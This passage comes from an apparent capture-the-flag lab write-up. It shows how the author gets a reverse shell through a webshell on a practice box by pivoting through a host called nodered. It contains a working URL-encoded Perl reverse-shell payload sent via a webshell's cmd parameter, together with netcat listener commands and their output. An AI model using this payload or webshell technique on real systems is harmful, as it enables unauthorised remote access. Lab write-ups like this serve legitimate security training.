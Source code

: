 #### Execution

And, like nodered, there’s a limited toolset available. Luckily, `perl` is
still present (a phrase I never thought I’d say).

To get this working, it took a fair amount of playing with the url encoding.
In the end, I had success by visiting the following url in a browser:
`http://127.0.0.1/8924d0549008565c554f8128cd11fda4/df.php?cmd=perl%20-e%20%27use%20Socket%3b$i%3d%22172.19.0.3%22%3b$p%3d2223%3bsocket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22))%3bif(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,%22%3E%26S%22)%3bopen(STDOUT,%22%3E%26S%22)%3bopen(STDERR,%22%3E%26S%22)%3bexec(%22/bin/sh+-i%22)%3b}%3b%27`

Sometimes, the box would get into a state where my callback would come
through, but it would return this error and die:

    
    
    root@kali# nc -lnvp 223
    listening on [any] 223 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 40772
    Insecure $ENV{PATH} while running setuid at -e line 1.
    

I could fix this by adding `$ENV{PATH} =
"/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin";` to the start
of my perl command, which is the path from nodered.

#### Success

Putting it all together, I have a webshell executing a perl reverse shell
command, calling back to nodered on port 223, which forwards that traffic to
my workstation on port 223.

  1. Upload shell:
    
        root@kali# ./upload_shell.sh
    OK
    OK
    OK
    OK
    OK
    

  2. Trigger perl shell: `http://127.0.0.1/8924d0549008565c554f8128cd11fda4/df.php?cmd=perl%20-e%20%27$ENV{PATH}%20=%20%22/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin%22;use%20Socket%3b$i%3d%22172.19.0.3%22%3b$p%3d2223%3bsocket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22))%3bif(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,%22%3E%26S%22)%3bopen(STDOUT,%22%3E%26S%22)%3bopen(STDERR,%22%3E%26S%22)%3bexec(%22/bin/sh+-i%22)%3b}%3b%27`

  3. Catch callback:
    
        root@kali# nc -lnvp 223
    listening on [any] 223 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 41236
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    $ hostname
    www
    